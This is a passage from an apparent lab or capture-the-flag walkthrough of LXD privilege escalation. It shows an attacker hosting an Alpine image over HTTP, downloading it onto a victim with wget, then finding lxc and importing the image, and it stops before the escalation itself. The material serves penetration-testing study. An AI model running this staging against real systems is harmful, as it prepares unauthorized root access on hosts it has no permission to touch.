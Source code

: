 ```
kali@kali:~/tools/lxd/lxd-alpine-builder$ sudo python -m SimpleHTTPServer 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 ...
```

Downloading it on our victim

```
-bash-5.0$ wget http://172.16.42.163/alpine-v3.12-x86_64-20200719_2153.tar.gz
--2020-07-22 23:44:35--  http://172.16.42.163/alpine-v3.12-x86_64-20200719_2153.tar.gz
Connecting to 172.16.42.163:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3186439 (3.0M) [application/gzip]
Saving to: 'alpine-v3.12-x86_64-20200719_2153.tar.gz.1'

alpine-v3.12-x86_64-20200719_21 100%[=======================================================>]   3.04M  --.-KB/s    in 0.04s   

2020-07-22 23:44:35 (86.6 MB/s) - 'alpine-v3.12-x86_64-20200719_2153.tar.gz.1' saved [3186439/3186439]
```

### The LXD Setup

LXC is not in the default bin so lets find out where we need to specify execution from.

```
-bash-5.0$ find / -name lxc > lxcsearch.txt
-bash-5.0$ head lxcsearch.txt
/snap/lxd/16100/bin/lxc
/snap/lxd/16100/commands/lxc
/snap/lxd/16100/lxc
/snap/lxd/16044/bin/lxc
/snap/lxd/16044/commands/lxc
/snap/lxd/16044/lxc
/snap/bin/lxc
/usr/share/bash-completion/completions/lxc
/etc/bash_completion.d/lxc
/home/oscp/snap/lxd/16100/.config/lxc
```

/snap/bin/lxc is what I use for LXC commands moving forward. Lets import the image.

```
-bash-5.0$ /snap/bin/lxc image import ./alpine-v3.12-x86_64-20200719_2153.tar.gz --alias trenchesofit
Image imported with fingerprint: e279d5bc0806b79884c8a0cf7952c86a53d9da5a23b7e13ee75b42628118b8f9
```

```
-bash-5.0$ /snap/bin/lxc image list
+--------------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
|    ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |          UPLOAD DATE          |
+--------------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
| trenchesofit | e279d5bc0806 | no     | alpine v3.12 (20200719_21:53) | x86_64       | CONTAINER | 3.04MB | Jul 22, 2020 at 11:59pm (UTC) |
+--------------+--------------+--------+-------------------------------+--------------+-----------+--------+-------------------------------+
```
